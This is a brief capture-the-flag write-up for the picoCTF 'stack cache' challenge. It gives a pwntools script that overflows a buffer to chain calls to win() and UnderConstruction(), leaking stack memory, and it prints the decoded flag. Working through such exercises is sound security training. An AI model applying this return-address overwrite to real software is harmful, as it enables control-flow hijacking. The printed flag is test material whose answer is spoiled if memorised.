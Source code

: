 # stack cache

### Description
> Undefined behaviours are fun.

### Solution
By calling `win()` first and then `UnderConstruction()`,
can be leaked the stack.

```python
win = 0x08049da0
uc = 0x08049e20 #UnderConstruction

io = remote(host, port)
#io = process(file)
io.sendlineafter("flag", b"A"*14 + p32(win) + p32(uc))

"""
User information : 0x80c9a04 0x804007d 0x39313139 0x32636335 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970

=> 7069636F 4354467B 436C6534 4E5F7550 5F4D336D 3072595F 35636332 39313139 7D
=> picoCTF{Cle4N_uP_M3m0rY_5cc29119}
"""

io.interactive()
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

